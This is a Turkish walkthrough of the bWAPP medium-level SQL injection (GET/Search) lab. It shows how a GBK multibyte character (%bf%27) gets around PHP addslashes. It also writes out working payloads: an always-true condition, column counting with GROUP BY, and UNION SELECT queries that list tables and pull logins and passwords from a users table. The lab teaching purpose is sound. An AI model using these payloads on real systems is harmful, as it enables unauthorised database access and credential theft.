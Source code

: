 ## bWAAP SQL Injection (GET/Search) Level Medium
Movies kısmına `'` karakteri koyuyoruz ve hata alamadığımız görüyoruz.
![](/images/first.PNG)
Bundan anlıyoruz ki `'` işaretini escapliyor. SQL sorgumuzun oluştuğu son hal ise aşağıdaki gibi olmaktadır;
```SQL
SELECT * FROM movies WHERE mname LIKE '%\'%'
```
Burada PHP tarafinda addslashes fonksiyonunun kullanıldığını görebiliriz challenge da bu fonksiyonu baypaslayabilmek için mysql char setimizin `character-set-server=GBK` şeklinde olması gereklidir.

###### MYSQL CHARSET AYARI

XAMPP yönetim panelinden my.ini konfigürasyon dosyasını açalım ve character-set-server’ı GBK olarak değiştirelim.

###### Addslashes

[Ömer Çıtak](https://omercitak.com/):
>Hex karşılığı 0xbf5c olan “¿\” karakteri, utf 8 charsetinde 2 karakter, GBK charsetinde 1 karakter olarak algılanıyor. İnjection saldırısında sorguya tek tırnak, yani 0x27 gönderdiğiniz vakit mysql_real_escape_string veya addslashes fonksiyonlarımız bizim tırnağımızı “\’” haline çeviriyor. Tırnaktan önce “¿” (0xbf) karakterini gönderdiğimizde yani “¿’” (0xbf27) karakterini gönderdiğimizde, tırnaktan önce \ eklendiğinden gönderdiğimiz karakter “¿\’” (0xbf5c27) halini alıyor. GBK charseti “¿\” karakterini tek karakter olarak aldıladığından sondaki tırnağımız boşa çıkıyor, böylece sorgunun gidişatını değiştirmiş oluyorsunuz. Sonrasında injection ile sorguyu istediğimiz şekle sokabiliriz.

###### bWAAP SQL Injection (GET/Search)

Uygulamamızda rast gele birşeyler aratalım ve urlin title kısmını `title=%bf%27` olarak değiştirlerim.
![](/images/error.jpeg)
tek tırnak işaretimiz fazla olduğu için sql hatası aldık.Url in title kısmını `title=%bf%27or1=1--+` değiştirir isek artık hata almadığımızı ve iki koşuldan birisi doğru olduğu için tüm filimleri görmüş oluyoruz.

![](/images/or1=1.jpeg)

Tablomuzun kolon sayısını öğrenmek için `title=%bf%27GROUP BY (değer)--+` değer kısmını uygulama hata verene kadar bir bir arttıralım ve hata verdikten bir önceki sayıymız koln sayımızdır.
Koln sayımızı bulduğumuza göre UNION sorgumuzu çalıştırabliriz.Tablo isimlerini bulmak için information_schema tablosunu kullanıyoruz. `title=%bf%27%20UNION%20SELECT%20NULL,table_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.tables--+`
![](/images/tables.jpeg)
Sırada colum isimini bulamız gerekli ama bunu malesef ki başaramıyoruz çünkü tırnak karakterini escaplemek için `%bf`kullanmamız gerekli ve bu karakter tablo ismimizin içnie giriyor ve tablo ismimizi bozuyor.

Örnek:table_name='' olarak string içine yazmamız gerek tablo ismi aşşağıdaki gibi tablo ismimizin sonuna %bf karakteri geliyor.
**`title=%bf%27%20UNION%20SELECT%20NULL,column_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.columns WHERE `_table_name=%bf%27tablename%bf%27--+**

Users isminde tablo bulduğumiz için klonları tahmin edebliriz.titleımızı değiştirerek kullanıcı adı ve parolamızı çekiyoruz. `title=%bf%27%20UNION%20SELECT%20NULL,login,password,NULL,NULL,NULL,NULL%20FROM%20users--+`
![](/images/users.jpeg)
